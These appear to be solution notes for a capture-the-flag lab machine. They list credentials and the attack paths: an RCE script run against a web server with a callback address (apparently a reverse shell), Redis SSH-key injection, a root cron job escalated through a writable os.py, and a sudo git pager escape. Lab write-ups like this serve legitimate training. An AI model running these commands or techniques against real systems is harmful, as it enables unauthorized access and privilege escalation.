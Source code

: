 # Creds
root:UnguessableP@ssw0rd
michiko-arasaka:4d4m5M@SH3R

## Port 22
OpenSSH server, not vulnerable

## Port 80
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh
Gets access to michiko-arasaka user
    ./webserver_python_RCE.sh http://10.10.69.13:8080/ 10.10.69.42 3000

## Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh
Gets access to the server as redis user
    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

## /lib/python2.7/os.py
A crontab running as root runs every minute that executes /opt/BackupRedis/backup.py and import os.py
os.py is writable by michiko-arasaka

You can root the box from michiko-arasaka user by putting a shell at the bottom of
/lib/python2.7/os.py and waiting for the cron job to execute.

## redis sudo -l

can gain access to michiko-arasaka user with:
    sudo -u michiko-arasaka /usr/bin/git -p help

